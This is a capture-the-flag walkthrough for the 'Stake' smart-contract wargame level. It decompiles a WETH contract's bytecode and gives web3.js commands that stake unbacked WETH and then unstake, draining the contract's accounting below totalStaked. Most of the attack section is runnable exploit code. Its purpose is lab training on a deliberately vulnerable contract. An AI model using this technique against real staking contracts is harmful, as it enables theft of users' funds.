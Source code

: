# Level 31: Stake

## Wargame
To complete this level, the contract state must meet the following conditions:
- The Stake contract's ETH balance has to be greater than 0.
- totalStaked must be greater than the Stake contract's ETH balance.
- You must be a staker.
- Your staked balance must be 0.

## Key Insights
- Bytecode Decompile

## Attack Steps

### 1. Target Contract Address

```
0x94711D23c71b52BcB321e4ADe2655D90f34c36A5
````

### 2. Inspect WETH Contract

- Retrieve the WETH contract address and bytecode:
    ```javascript
    weth = await contract.WETH()
    await web3.eth.getCode(weth)
    // '0x608060405234801561000f575f80fd5b50600436106100c4575f3560e01c806 ...'
    ````

- Using [Dedaub Bytecode Decompiler](https://app.dedaub.com/decompile?network=ethereum), analyze the bytecode and identify that function selector `0x39509351` corresponds to:
    ```
    increaseAllowance(address,uint256)
    ```

### 3. Exploit Steps

- Increase Allowance for Stake Contract:
    ```javascript
    const functionSelector = '0x39509351';
    const oneEtherInWei = web3.utils.toWei('1', 'ether');
    const encodedSender = web3.eth.abi.encodeParameter('address', instance).slice(2);
    const encodedAmount = web3.eth.abi.encodeParameter('uint256', oneEtherInWei).slice(2);
    const wethData = functionSelector + encodedSender + encodedAmount;
    const weth = await contract.WETH();

    await web3.eth.sendTransaction({
        from: player,
        to: weth,
        data: wethData
    });
    ```

- Call `StakeETH` with 0.002 ether:
    ```javascript
    valueInWei = web3.utils.toWei('0.002', 'ether');
    const StakeETHData = web3.eth.abi.encodeFunctionCall({
        name: 'StakeETH',
        type: 'function',
        inputs: []
    }, []);

    await web3.eth.sendTransaction({
        from: player,
        to: instance,
        value: valueInWei,
        data: StakeETHData
    });

    balance = await contract.UserStake(player)
    fromWei(balance)
    // '0.002'
    ```

- Stake more using WETH:
    ```javascript
    valueInWei = web3.utils.toWei('0.003', 'ether');
    await contract.StakeWETH(valueInWei)

    await getBalance(instance)
    // '0.002'

    total = await contract.totalStaked()
    fromWei(total)
    // '0.005'

    balance = await contract.UserStake(player)
    fromWei(balance)
    // '0.005'
```

- Call `attack()` in the `StakeAttack` contract, transferring 0.004 ether:
    ```javascript
    await getBalance(instance)
    // '0.006'

    total = await contract.totalStaked()
    fromWei(total)
    // '0.009'

    balance = await contract.UserStake(player)
    fromWei(balance)
    // '0.005'
    ```

- Unstake Player's Balance:
    ```javascript
    valueInWei = web3.utils.toWei('0.005', 'ether');
    await contract.Unstake(valueInWei)
    ```

- Verify Challenge Completion
    ```javascript
    await getBalance(instance)
    // '0.001'

    total = await contract.totalStaked()
    fromWei(total)
    // '0.004'

    await contract.Stakers(player)
    // 'true'

    balance = await contract.UserStake(player)
    fromWei(balance)
    // '0'
    ```